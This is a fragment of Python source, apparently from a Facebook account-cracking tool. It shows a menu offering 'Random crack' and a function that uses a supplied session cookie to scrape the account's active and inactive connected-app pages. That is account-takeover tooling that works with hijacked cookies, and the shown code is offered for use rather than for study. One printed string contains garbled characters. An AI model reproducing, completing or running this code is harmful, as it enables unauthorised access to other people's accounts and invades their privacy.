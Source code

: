 	titik = ['.   ','..  ','... ','.... ']

	for o in titik:

		print('\r'+text+o),

		sys.stdout.flush();time.sleep(1)





		

def menu():

	os.system('clear')

	print(logo)

	print(47*"-")

	print('[1] Random crack')

	print(47*"-")

	opt = input('[?] Choose : ')

	if opt =='1':

		random_crack()



def cek_apk(coki):

    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text

    sop = BeautifulSoup(w,"html.parser")

    x = sop.find("form",method="post")

    game = [i.text for i in x.find_all("h3")]

    if len(game)==0:

        print(f'\r %s[%s!%s] %sSorry there is no Active Apk%s  '%(N,M,N,M,N))

    else:

        print(f'\r Ã°Å¸Å½Â®  %sYour Active Application Details :'%(H))

        for i in range(len(game)):

            print(f"\r %s%s. %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))

        #else:

            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))

    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text

    sop = BeautifulSoup(w,"html.parser")

    x = sop.find("form",method="post")
